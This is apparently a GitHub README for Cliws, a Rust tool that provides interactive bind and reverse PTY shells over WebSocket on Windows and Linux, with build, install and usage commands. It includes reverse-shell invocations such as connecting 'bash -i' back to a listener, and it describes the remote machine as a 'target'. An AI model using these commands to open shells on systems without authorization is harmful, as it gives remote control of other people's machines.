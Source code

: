 # Cliws [![Build Status](https://img.shields.io/github/workflow/status/b23r0/cliws/Rust)](https://app.travis-ci.com/b23r0/Cliws) [![ChatOnDiscord](https://img.shields.io/badge/chat-on%20discord-blue)](https://discord.gg/ZKtYMvDFN4) [![LastCommit](https://img.shields.io/github/last-commit/b23r0/cliws)](https://github.com/b23r0/Cliws/) [![Crate](https://img.shields.io/crates/v/cliws)](https://crates.io/crates/cliws)
Lightweight interactive bind/reverse PTY shell with Windows&Linux support implementation by Rust.

# Features

* WebSocket
* Full pty support: VIM, SSH, readline, Ctrl+X
* Auto set terminal window size.
* Reverse connection / Bind port
* Support Win10+(Windows Server 2019+) & Linux

# Build & Run

`$> cargo build --release`

`$> ./target/release/cliws`

# Installation

`$> cargo install cliws`

# Usage

## Bind Mode

You can run a bash and listen port at 8000

`$> ./cliws -p 8000 bash -i`

then connect and get a comfortable shell.

`$> ./cliws -c ws://127.0.0.1:8000`

## Reverse Mode

First listen a port wait for shell

`$> ./cliws -l 8000`

then build a reverse connection

`$> ./cliws -r ws://127.0.0.1:8000 bash -i`

# Example

## Linux

![image]( https://github.com/b23r0/Cliws/blob/main/example/cliws-vim.gif)

## Windows(Reverse Mode)

![image]( https://github.com/b23r0/Cliws/blob/main/example/cliws-windows.gif)

# Invalid Characters

In Windows(Windows Terminal), the default `CodePage` encoding is UTF-8. When encountering the target of other language operating systems, invalid characters may occur. You can try the following methods to solve it.

Open Regedit and modified `[Machine]\HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Nls\CodePage\OEMCP` value is 65001(DEC).

# Reference

* https://github.com/t57root/amcsh

* https://github.com/philippkeller/rexpect

* https://github.com/zhiburt/conpty

* https://securityonline.info/conptyshell-interactive-reverse-shell/
